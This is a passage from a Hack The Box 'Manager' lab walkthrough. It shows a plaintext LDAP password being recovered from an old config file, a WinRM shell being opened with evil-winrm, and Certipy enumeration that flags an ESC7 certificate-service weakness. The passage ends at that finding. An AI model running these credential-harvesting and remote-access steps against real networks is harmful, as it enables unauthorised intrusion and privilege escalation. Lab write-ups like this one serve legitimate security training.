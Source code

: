 ```sh
-rw-r--r-- 1 kali kali    7900 Jul 27 05:32 service.html
-rw-r--r-- 1 kali kali 1045328 Oct 24 15:57 test.zip
                                                                                                                           
┌──(kali㉿kali)-[~/htb/manager]
└─$ cat .old-conf.xml                                                   
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
				 <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

We find the password for the username raven: `R4v3nBe5tD3veloP3r!123`.

Now we can try to connect with this password to WinRM.

```sh
┌──(kali㉿kali)-[~/htb/manager]
└─$ evil-winrm -u raven -p 'R4v3nBe5tD3veloP3r!123' -i dc01.manager.htb

*Evil-WinRM* PS C:\Users\Raven\Documents> cat ../Desktop/user.txt
e49ce14<...>716d1d3
```

# Privilege Escalation

As there is an Active Directory Certificate Service, we will use [Certipy](https://github.com/ly4k/Certipy) to find out if there are some vulnerabilities.

```sh
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'  -dc-ip 10.10.11.236

<...>

[!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
```
